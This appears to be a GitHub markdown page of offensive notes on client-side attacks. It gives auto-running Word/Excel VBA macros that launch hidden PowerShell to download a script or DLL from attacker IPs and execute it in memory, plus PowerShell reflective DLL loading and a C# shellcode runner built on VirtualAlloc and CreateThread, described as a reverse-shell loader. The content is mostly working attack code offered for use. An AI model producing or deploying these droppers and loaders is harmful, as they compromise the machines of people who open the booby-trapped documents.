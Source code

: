 # Reflective Code Execution in Client Side Attacks

### Microsoft Word/Excel use VBA

*** Flagged cause of Powershell command.  Basic VBA dropper ***


### This is reflective poewrshell.  This should download ps1 and run it in memory but this gets flagged.  

``` VBA

Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadString('http://192.168.50.120/run.ps1') | IEX"
    Shell str, vbHide
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub


######################### OR ############################################ 


Sub MyMacro()
    Dim str As String
    str = "powershell.exe $data = (New-Object System.Net.WebClient).DownloadData('http://192.168.1.196:4443/DLL_process_hollow.dll'); $assem = [System.Reflection.Assembly]::Load($data); $class = $assem.GetType('ReflectiveDLLCSharp.Class1'); $method = $class.GetMethod('runner');$method.Invoke(0, $null)"
    Shell str, vbHide
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

```

<br><br><br><br><br>

### Reflective exection with DLL.  Make C# DLL, copy main 

*** copy DLL code into runner function below ***  
Steps: 

1) Make DLL below with shell code and host on Kali/attacker controlled location
2) Add powershell to whatever you need to load assembly and class etc

``` powershell

$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.50.120/ClassLibrary1.dll')

$assem = [System.Reflection.Assembly]::Load($data)
$class = $assem.GetType("ClassLibrary1.Class1")
$method = $class.GetMethod("runner")
$method.Invoke(0, $null)

```




``` Csharp

using System;
using System.Collections.Generic;
using System.Linq;
using System.Runtime.InteropServices;
using System.Text;
using System.Threading.Tasks;

namespace ReflectiveDLLCSharp
{
    public class Class1
    {
            [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
            static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize,
             uint flAllocationType, uint flProtect);

            [DllImport("kernel32.dll")]
            static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize,
              IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

            [DllImport("kernel32.dll")]
            static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

            public static void runner()
            {

            //Shellcode
            byte[] buf = new byte[1] { 0xAA };


            int size = buf.Length;

            //allocate memory
            var virtaddr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

            // copy revshell into memory
            System.Runtime.InteropServices.Marshal.Copy(buf, 0, virtaddr, (int)size);


            //create thread and start process
            var thandle = CreateThread(IntPtr.Zero, 0, virtaddr,
                IntPtr.Zero, 0, IntPtr.Zero);


            //waits for the shell to end so the revshell doesnt get closed early
            WaitForSingleObject(thandle, 0xFFFFFFFF);


        }
    }
}   

```
